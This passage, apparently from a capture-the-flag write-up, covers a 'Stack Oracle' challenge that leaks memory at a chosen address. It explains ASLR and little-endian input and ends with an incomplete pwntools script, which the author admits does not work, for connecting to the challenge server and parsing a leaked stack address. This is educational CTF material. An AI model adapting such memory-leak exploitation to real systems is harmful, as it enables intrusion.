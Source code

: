 Also, note that modern systems use Address Space Layout Randomization (ASLR) to randomize the location of functions in memory, so we're going to have to do this calculation based on the printed hex value.

It's also important to note how our input must be formed:

```
Hi! I am the Stack Oracle.

You are here: 0x7ffc771ffd60
 Give me an address and I will grant you 8 leaked bytes:
deadbeef
Here are the contents of 0xefbeadde:
```

In little endian format, the least significant byte is stored first. So, for the hexadecimal number [deadbeef](https://en.wikipedia.org/wiki/0xDEADBEEF), it would be stored and interpreted as `efbeadde`.

This is why when we input `deadbeef`, the program reads it as 0xefbeadde. If you want the program to interpret it as `0xdeadbeef`, you would need to input it in little endian format, which would be `efbeadde`.

```
Hi! I am the Stack Oracle.

You are here: 0x7ffff5a86980
 Give me an address and I will grant you 8 leaked bytes:
efbeadde
Here are the contents of 0xdeadbeef:
```

I'm gonna be real with you: i haven't figured this out yet. If I find a solution, I'll update you here. This is my best attempt so far, but I think I'm missing something.

```py
from pwn import *

def to_little_endian(hex_str: str) -> str:
    # ensure the hex number has even length
    if len(hex_str) % 2 != 0:
        hex_str = "0" + hex_str

    # reverse the byte order
    little_endian = "".join(reversed([hex_str[i:i+2] for i in range(0, len(hex_str), 2)]))

    return little_endian


def hack(offset):
    print(f"trying offset {offset}...")
    # Establish a connection to the challenge
    conn = remote('ctfd.zack.fyi', 8003)

    # Read the initial output from the server
    output = conn.recvuntil(b'Give me an address and I will grant you 8 leaked bytes:\n')

    output_str = output.decode('utf-8') # ensure connection is text

    # parse address from connection
    address_match = re.search(r'0x[0-9a-fA-F]+', output_str)
    if address_match:
        hex_address = address_match.group(0)  # the hex address
    else:
        raise 'No address found in the output.'

    # parse address as hex
    # int takes (string to convert, base to convert within)
```